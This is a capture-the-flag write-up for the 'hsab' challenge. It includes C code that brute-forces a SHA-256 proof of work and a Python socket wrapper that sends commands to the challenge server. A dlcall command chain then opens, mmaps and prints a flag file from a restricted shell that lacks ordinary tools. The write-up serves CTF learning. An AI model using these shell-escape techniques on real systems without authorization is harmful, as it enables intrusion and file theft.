 # hsab

## Solution

The first part of the challenge is to give a proof of work to the server, if the proof of work is correct, we'll get access to a shell. The proof of work is strings which sha256 starts with 20 zeros in binary. The first letters of that string are chosen by the server.

```c
#include <string.h>
#include <time.h>
#include <stdlib.h>
#include <stdio.h>
// #include <openssl/sha256.h>
#define COMMON_DIGEST_FOR_OPENSSL
#include <CommonCrypto/CommonDigest.h>
#define SHA1 CC_SHA1

char *rand_string(size_t length, char* prefix) {
    static char charset[] = "azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN1234567890";
    char *randomString = NULL;
    int prelen = strlen(prefix);
    int n = 0;

    if (length) {
        randomString = malloc(sizeof(char) * (length + prelen + 1));
        strcpy(randomString, prefix);

        if (randomString) {
            for (n = prelen ; n < length + prelen-1; n++) {
                int key = rand() % (int)(sizeof(charset) - 1);
                randomString[n] = charset[key];
            }
        
            randomString[length + prelen] = 0;
        }
    }

    return randomString;
}

int main(int argc, char* argv[]) {
    int length = 20;
    int n = 0;
    unsigned char digest[32];
    char *out = (char*)malloc(33);
    char* arg = NULL;
    char *rdStr = NULL;

    arg = argv[1];

    srand(time(0));

    while(1) {
        SHA256_CTX c;
        SHA256_Init(&c);
        memset(digest, 0, 32);
        rdStr = rand_string(length, arg);
        SHA256_Update(&c, rdStr, strlen(rdStr));
        SHA256_Final(digest, &c);

        for (n = 0; n < 32; ++n) {
            snprintf(&(out[n*2]), 32*2, "%02x", (unsigned int)digest[n]);
        }

        if (!strncmp("00000", out, 5)) {
            printf("%s\n", rdStr);
            break;
        }

        free(rdStr);
    }

    return 0;
}
```

This program takes in argument the first characters given by the server. It then finds and return a collision that starts with 20 zeros (which is 5 times the character `0` in hexadecimal). 
In order to communicate with the server easily, I wrote a little wrapper in Python.

```python
import socket
import sys
import re
import subprocess

bctf = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #defines the socket
bctf.connect(("104.199.132.199", 2222))

data = bctf.recv(2048)
print data

m = re.match("[^']*'(.*)'.*", data)
if m:
    prefix = m.group(1)

data = bctf.recv(2048)
print data

out = subprocess.check_output(["./LHC", prefix])
print out

bctf.send(out.strip() +"\n")	# Sends the proof of work
data = bctf.recv(2048)
print data

bctf.send(sys.argv[1]+"\n")		# Sends the command given in argument
data = bctf.recv(2048)
print data
data = bctf.recv(2048)
print data

bctf.close()
```

We now have a shell to server. Although it lacks standard tools such as `ls` or `cat`, it's possible to list directories with the command `python wrapper.py "type /home/*"`. That's how we found out that the flag was in the file `/home/ctf/flag.ray`.

Then, we needed to open that file and none of the commands available could do it. But dlcall seemed interesting, because it was possible to call functions from the standard library with it. In order to read the content of the flag file, we needed to open the file, mmap it, and then print it.

Which was made possible with the command `python wrapper.py "dlcall -n fd -r pointer open /home/ctf/flag.ray 0 && dlcall -n mapped -r pointer mmap 0 10 1 1 \$fd 0 && dlcall printf %s \$mapped"`.

## References

 * [https://github.com/taviso/ctypes.sh/wiki](https://github.com/taviso/ctypes.sh/wiki)